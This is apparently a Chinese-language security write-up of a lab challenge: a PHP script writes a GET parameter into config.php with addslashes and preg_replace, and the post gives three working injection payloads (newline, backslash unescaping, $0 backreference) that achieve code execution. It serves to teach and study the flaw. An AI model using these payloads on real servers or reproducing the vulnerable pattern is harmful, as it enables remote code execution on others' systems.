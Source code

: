 phithon师父在小蜜圈里放了一个经典的配置文件写入问题漏洞.
```php
<?php
if(!isset($_GET['option'])) die();
$str = addslashes($_GET['option']);
$file = file_get_contents('./config.php');
$file = preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file);
file_put_contents('./config.php', $file);
```
config.php 的内容如下:
```php
<?php
$option='test';
```
要求是要getshell,这个场景十分经典，常用在修改配置文件写入的时候。
此处不存在之前说的那个配置文件中用的是"双引号"引起任意代码执行的问题,这这里面用的是单引号,而且 addslashes()处理过了,看似很安全,但是对于脑子里有个黑洞的搞安全的人来讲,这个还真是有问题的.

#### 方法一,利用换行符来绕过正则匹配的问题
可以看到正则匹配的是以下内容:
```php
$option='任意内容'
```
任意内容里面是可以包含转移符 \ 的,所以我们利用下面的方法:
```
http://127.0.0.1/index.php?option=a';%0aphpinfo();//
http://127.0.0.1/index.php?option=a
```
执行完第一个之后,config.php中的内容为:
```php
<?php
$option='a\';
phpinfo();//';
```
但是这样并没有办法执行phpinfo(),因为我们插入的 单引号 被转移掉了,所以phpinfo()还是在单引号的包裹之内.
我们在访问下面这个
```
http://127.0.0.1/index.php?option=a
```
因为正则 .* 会匹配行内的任意字符无数次.所以 \ 也被认为是其中的一部分,也会被替换掉,执行完之后,config.php中的内容为:
```php
<?php
$option='a';
phpinfo();//';
```
转义符就被替换掉了,就成功的getshell.

#### 方法二,利用 preg_replace函数的问题:
preg_replace函数在处理字符串的时候,会自动对第二个参数的 \ 这个字符进行反转移.
具体为啥要这样干,我也不太懂.
也就是说如果字符串是 ```\\\'```,经过 preg_replace()的处理,就变为 ```\\'```,单引号就逃出来了.
所以payload如下:
```
http://127.0.0.1/index.php?option=a\';phpinfo();//
```
config.php变为:
```php
<?php
$option='a\\';phpinfo();//';
```
道理就是  ```a\';phpinfo();//```  经过 addslashes()处理之后,变为```a\\\';phpinfo();//``` 然后两个反斜杠被preg_replace变成了一个,导致单引号逃脱.

#### 利用 preg_replace() 函数的第二个参数的问题
先看官方对preg_replace()函数的描述[manual](http://php.net/manual/zh/function.preg-replace.php)
函数原型:
```
mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
```
对replacement的描述.
> replacement中可以包含后向引用\\n 或(php 4.0.4以上可用)$n，语法上首选后者。 每个 这样的引用将被匹配到的第n个捕获子组捕获到的文本替换。 n 可以是0-99，\\0和$0代表完整的模式匹配文本。

所以我们可以用:
```
http://127.0.0.1/test/ph.php?option=;phpinfo();
http://127.0.0.1/test/ph.php?option=%00 或者 http://127.0.0.1/test/ph.php?option=$0
```
执行第一条后config.php的内容为:
```php
<?php
$option=';phpinfo();';
```
再执行第二条后config.php的内容为:
```php
<?php
$option='$option=';phpinfo();';';
```
刚好闭合掉了前后的两个单引号中间的逃脱出来了.想出这个办法的人,思路真是可以的.










d
